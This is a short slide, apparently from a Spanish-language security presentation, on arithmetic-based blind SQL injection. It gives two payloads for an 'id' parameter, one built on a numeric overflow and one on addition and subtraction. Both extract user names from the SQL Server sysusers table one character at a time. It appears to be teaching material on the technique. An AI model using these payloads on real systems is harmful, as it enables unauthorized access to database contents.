

# Arithmetic SQL Injection
Desbordamiento de tipo de datos
id=1-((99/(select top 1 ASCII(substring(name,1,1)) from sysusers order by name asc))*(99999999999999999*9999999999999999999))
Sumas y restas
Id=1-(-(select top 1 ascii(substring(name,1,1)) from sysusers order by name asc))-99